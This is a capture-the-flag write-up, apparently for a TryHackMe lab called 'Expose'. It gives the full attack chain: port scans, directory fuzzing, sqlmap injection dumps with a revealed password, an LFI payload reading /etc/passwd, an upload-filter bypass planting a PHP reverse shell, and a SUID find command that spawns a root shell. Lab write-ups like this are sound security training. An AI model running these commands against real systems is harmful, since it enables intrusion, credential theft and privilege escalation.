 To check my VPN connection was working I started with "ping -c4 10.10.116.11". Everything seems to be working fine so let's start.
I ran 
````
sudo nmap -sS -p- 10.10.116.111
````
to get an initial understanding of what ports were open on the target.

````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 15:51 EEST
Nmap scan report for 10.10.116.111
Host is up (0.075s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
1337/tcp open  waste
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 39.58 seconds
````


Refined my command a bit
````
nmap -sVC -p21,22,53,1337,1883 10.10.116.111
PORT     STATE SERVICE                 VERSION
21/tcp   open  ftp                     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.10.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a5:d1:b7:3c:c5:03:aa:34:f1:a6:e3:5f:b7:cd:5b:46 (RSA)
|   256 14:da:96:fc:70:45:71:e7:39:c8:0f:c3:a9:7a:87:b2 (ECDSA)
|_  256 e2:90:b5:0b:ee:f1:a1:9a:77:e1:40:cc:65:ae:66:12 (ED25519)
53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: EXPOSED
|_http-server-header: Apache/2.4.41 (Ubuntu)
1883/tcp open  mosquitto version 1.6.9
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     $SYS/broker/load/connections/1min: 1.83
|     $SYS/broker/messages/sent: 13
|     $SYS/broker/heap/current: 50872
|     $SYS/broker/load/publish/sent/1min: 9.14
|     $SYS/broker/publish/bytes/sent: 55
|     $SYS/broker/load/messages/sent/5min: 2.55
|     $SYS/broker/load/sockets/5min: 0.74
|     $SYS/broker/clients/active: 1
|     $SYS/broker/load/bytes/sent/1min: 340.81
|     $SYS/broker/uptime: 682 seconds
|     $SYS/broker/load/bytes/received/15min: 4.57
|     $SYS/broker/clients/maximum: 1
|     $SYS/broker/load/publish/sent/5min: 1.96
|     $SYS/broker/load/bytes/sent/5min: 73.25
|     $SYS/broker/load/messages/received/15min: 0.20
|     $SYS/broker/load/connections/15min: 0.13
|     $SYS/broker/load/bytes/received/5min: 13.55
|     $SYS/broker/store/messages/bytes: 140
|     $SYS/broker/bytes/received: 69
|     $SYS/broker/subscriptions/count: 2
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/store/messages/count: 30
|     $SYS/broker/load/connections/5min: 0.39
|     $SYS/broker/publish/messages/sent: 10
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/load/bytes/received/1min: 63.04
|     $SYS/broker/load/messages/sent/15min: 0.86
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/clients/connected: 1
|     $SYS/broker/load/sockets/1min: 2.51
|     $SYS/broker/load/messages/received/1min: 2.74
|     $SYS/broker/load/sockets/15min: 0.30
|     $SYS/broker/messages/stored: 30
|     $SYS/broker/retained messages/count: 34
|     $SYS/broker/heap/maximum: 51272
|     $SYS/broker/load/publish/sent/15min: 0.66
|     $SYS/broker/clients/total: 1
|     $SYS/broker/bytes/sent: 373
|     $SYS/broker/load/messages/received/5min: 0.59
|     $SYS/broker/load/bytes/sent/15min: 24.72
|     $SYS/broker/load/messages/sent/1min: 11.88
|_    $SYS/broker/messages/received: 3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.93 seconds
````

So there is FTP, SSH, DNS domain, waste p2p encrypted file sharing software, and MQTT which is a home automation protocol running.
FTP server allows anonymous login without a password so let's start there. There are no files but the welcome message is "220 Welcome to the Expose Web Challenge.".
Went to "http://10.10.116.111:1337" with the browser and got a plank page with "EXPOSED" in it. Let's use ffuf to try to find some directories.
````
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.116.111:1337/FUZZ
````
found "/admin, /admin_101, /javascript, /phpmyadmin & /server-status".

"/admin, /admin_101 & /phpmyadmin" all have login pages but "/admin" states "Is this the right admin portal?". Testing "/admin" login does not really do anything so let's look at the "/admin_101" next.
Used burp to proxy the request to a file for sqlmap to test for injection vulnerabilities. 
"sqlmap -l req --level=4 --risk=2" tells that backend server seems to be "MySQL" 
"sqlmap -l req --dbms=MySQL --dbs" found "[*] expose,[*] information_schema,[*] mysql,[*] performance_schema,[*] phpmyadmin,[*] sys" databases.
"sqlmap -l req --dbms=MySQL -D expose,mysql,phpmyadmin --tables" dumps tables from databases "expose,mysql,phpmyadmin".
I started with expose database. There were "user, config" tables so lets find out columns for "user" table. 
"sqlmap -l req --dbms=MySQL -D expose -T user --columns" found "created,email,id,password" columns so let's dump them!
````
+-----------------+----+--------------------------------------+
| email           | id | password                             |
+-----------------+----+--------------------------------------+
| hacker@root.thm | 1  | VeryDifficultPassword!!#@#@!#!@#1231 |
+-----------------+----+--------------------------------------+
````
This grants login to "/admin_101" but there is nothing.

"sqlmap -l req --dbms=MySQL -D expose -T config --dump" gives more interesting output
````
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929                    |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+
````
I tried to crack hash with JohnTheRipper but it didn't work. I used crackstation.com to see if it would work, and it did. The password is "easytohack".
Tried to brute force "http://10.10.116.111:1337/upload-cv00101011/index.php" with z starting usernames as it hints that the username starts with "z" but it didn't work.
"/file1010111/index.php" lets me in with the password "easytohack". Looking at the source code there is a "Hint: Try file or view as GET parameters?". 
It hints towards LFI(local file inclusion). Trying "http://10.10.116.111:1337/file1010111/index.php?file=../../../../../../../../../etc/passwd" spits out the whole passwd file!

In the file is user "zeamkish", trying that on "http://10.10.116.111:1337/upload-cv00101011/index.php" gives upload page. 
The source code tells me that there is a javascript function that only allows "jpg & png" files. Let's try to bypass it with burp.
I will create a rev.php.png file with php reverse shell inside and upload it with burp. I intercept the upload and remove ".png" extension from the reverse shell and it goes through!
The site says "File uploaded successfully! Maybe look in source code to see the path" so again I looked at the source code and found that the file went to "/upload_thm_1001".
I start a listener port the port in the reverse shell and execute our reverse shell by just clicking the file and we got our shell!

I looked at the folder I landed in but there was nothing. Checked home folders of "ubuntu" and "zeamkish". In zeamkish folder was a file named "ssh_creds.txt"!
Let's try them for ssh "ssh zeamkish@10.10.116.111" and we are in as zeamkish.

I uploaded "linpeas.sh" to help with enumeration. There is an uncommon binary with suid bit.
-rwsr-x--- 1 root zeamkish 313K Feb 18  2020 /usr/bin/find

I had a look at gtfobins and found that you can spawn a privileged shell with: "./find . -exec /bin/sh -p \; -quit"
The flag was "/root/flag.txt"
